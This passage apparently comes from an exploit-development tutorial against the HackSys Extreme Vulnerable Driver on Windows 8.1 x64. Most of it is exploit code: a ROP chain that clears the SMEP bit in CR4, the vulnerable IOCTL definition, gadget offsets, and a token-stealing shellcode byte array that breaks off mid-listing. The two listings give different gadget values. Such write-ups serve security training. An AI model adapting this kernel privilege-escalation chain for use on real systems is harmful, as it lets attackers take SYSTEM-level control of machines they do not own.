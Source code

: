 We can see we got lucky.  The next thing it does is clean up its own stack and return.  This means we have `0x28` bytes after the return address to work with for our ROP chain.

Let's add the gadgets to the code and build the chain.

```c
// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x140378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x14008655a      // : mov cr4, rcx ; ret

#define CHAIN_SIZE 4 * POINTER_SIZE  
```

And to add the chain to the end of the buffer, we can do the following:

```c
inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
```

```c
returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;
```

The exploit code is now the following .

```c
#include <windows.h>
#include <stdio.h>


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define POINTER_SIZE 8

// SMEP Constants
#define SMEP_BIT 20
#define CR4_ORIG_VALUE 0x00000000001406f8
#define CR4_SMEP_DISABLED (CR4_ORIG_VALUE & ~(1 << SMEP_BIT))

// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x000378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x00008655a      // : mov cr4, rcx ; ret

// Chain is 2 gadgets + 1 value to store in rcx + address of shellcode
#define CHAIN_SIZE 4 * POINTER_SIZE  


// https://github.com/stolenfootball/HEVDExploits/blob/main/BufferOverflowStack/Windows8x64/shellcode.asm
CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x41, 0xBC, 0x00, 0x00, 0x00, 0x00, 0x49,
```